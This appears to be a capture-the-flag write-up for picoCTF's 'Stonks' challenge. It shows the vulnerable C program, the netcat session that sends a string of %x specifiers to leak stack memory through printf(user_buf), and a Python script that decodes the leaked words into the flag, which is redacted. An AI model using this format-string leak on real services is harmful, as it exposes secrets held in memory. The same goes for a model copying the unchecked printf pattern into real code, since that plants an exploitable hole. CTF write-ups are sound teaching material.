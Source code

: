 ### Stonks 💰

Taking a look at the `vuln.c`:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define FLAG_BUFFER 128
#define MAX_SYM_LEN 4

typedef struct Stonks {
	int shares;
	char symbol[MAX_SYM_LEN + 1];
	struct Stonks *next;
} Stonk;

typedef struct Portfolios {
	int money;
	Stonk *head;
} Portfolio;

int view_portfolio(Portfolio *p) {
	if (!p) {
		return 1;
	}
	printf("\nPortfolio as of ");
	fflush(stdout);
	system("date"); // TODO: implement this in C
	fflush(stdout);

	printf("\n\n");
	Stonk *head = p->head;
	if (!head) {
		printf("You don't own any stonks!\n");
	}
	while (head) {
		printf("%d shares of %s\n", head->shares, head->symbol);
		head = head->next;
	}
	return 0;
}

Stonk *pick_symbol_with_AI(int shares) {
	if (shares < 1) {
		return NULL;
	}
	Stonk *stonk = malloc(sizeof(Stonk));
	stonk->shares = shares;

	int AI_symbol_len = (rand() % MAX_SYM_LEN) + 1;
	for (int i = 0; i <= MAX_SYM_LEN; i++) {
		if (i < AI_symbol_len) {
			stonk->symbol[i] = 'A' + (rand() % 26);
		} else {
			stonk->symbol[i] = '\0';
		}
	}

	stonk->next = NULL;

	return stonk;
}

int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
	char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	fgets(api_buf, FLAG_BUFFER, f);

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}

Portfolio *initialize_portfolio() {
	Portfolio *p = malloc(sizeof(Portfolio));
	p->money = (rand() % 2018) + 1;
	p->head = NULL;
	return p;
}

void free_portfolio(Portfolio *p) {
	Stonk *current = p->head;
	Stonk *next = NULL;
	while (current) {
		next = current->next;
		free(current);
		current = next;
	}
	free(p);
}

int main(int argc, char *argv[])
{
	setbuf(stdout, NULL);
	srand(time(NULL));
	Portfolio *p = initialize_portfolio();
	if (!p) {
		printf("Memory failure\n");
		exit(1);
	}

	int resp = 0;

	printf("Welcome back to the trading app!\n\n");
	printf("What would you like to do?\n");
	printf("1) Buy some stonks!\n");
	printf("2) View my portfolio\n");
	scanf("%d", &resp);

	if (resp == 1) {
		buy_stonks(p);
	} else if (resp == 2) {
		view_portfolio(p);
	}

	free_portfolio(p);
	printf("Goodbye!\n");

	exit(0);
}
```

The bug is obvious here:

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

There is a `Format string bug` there. Let's see what we can leak from there:

```bash
➜  stonks git:(main) ✗ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x
Buying stonks with token:
9dd1350,804b000,80489c3,f7ed4d80,ffffffff,1,9dcf160,f7ee2110,f7ed4dc7,0,9dd0180,2,9dd1330,9dd1350,6f636970,7b465443,306c5f49,345f7435,6d5f6c6c,306d5f79,5f79336e,63343261,36613431,fff2007d,f7f0faf8,f7ee2440,ffaf8000,1,0,f7d71ce9,f7ee30c0,f7ed45c0,f7ed4000,fff28c08,f7d6268d,f7ed45c0,8048eca,fff28c14,0,f7ef6f09,804b000,f7ed4000,f7ed4e20,fff28c48,f7efcd50,f7ed5890,ffaf8000,f7ed4000,804b000,fff28c48,8048c86,9dcf160,fff28c34,fff28c48,8048be9,f7ed43fc,0,fff28cfc,fff28cf4,1,1,9dcf160,ffaf8000,fff28c60,0,0,f7d17fa1,f7ed4000,f7ed4000,0,f7d17fa1,1,fff28cf4,fff28cfc,fff28c84,1,0,f7ed4000,f7ef770a,f7f0f000,0,f7ed4000,0,0,a064b9f8,e782bfe8,0,0,0,1,8048630,0,f7efcd50,f7ef7960,804b000,1,8048630,0,8048662,8048b85
```

We see that it's a `32-bit` binary from the addresses starting with `0x80*`. Now, we know that the flag format is `picoCTF{}`.

Converting these characters to hex:

```python
'0x70'
>>> hex(ord('i'))
'0x69'
```

So, we need to find the bytes `0x70` and `0x69` (noice!), next to each other.  If we search for these 2 numbers we see them in this address:

```
6f636970
```

We see that the flag is opened on the stack before the print, so it was obvious we could leak it this way. Now we need to convert these hex values to ASCII to get the flag. The flag always ends with `}` which has the hex value `0x7d`, so we know where to stop and take only the necessary addresses.

```python
addr = ['6f636970', '7b465443', '306c5f49', '345f7435', '6d5f6c6c', '306d5f79',
        '5f79336e', '63343261', '36613431', 'fff2007d']
```

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.arch = 'amd64'

addr = ['6f636970', '7b465443', '306c5f49', '345f7435', '6d5f6c6c', '306d5f79',
        '5f79336e', '63343261', '36613431', 'fff2007d']

flag = ''

for i in addr:
  tmp = ''
  for j in range(0, 8, 2):
    tmp += chr(int(i[j + 0: j + 2], 16))
  flag += tmp[::-1]

flag = flag.split('}')[0]
print(f'Flag --> {flag}}}')
```

```bash
➜  stonks git:(main) ✗ python solver.py
Flag --> picoCTF{XXX}
```
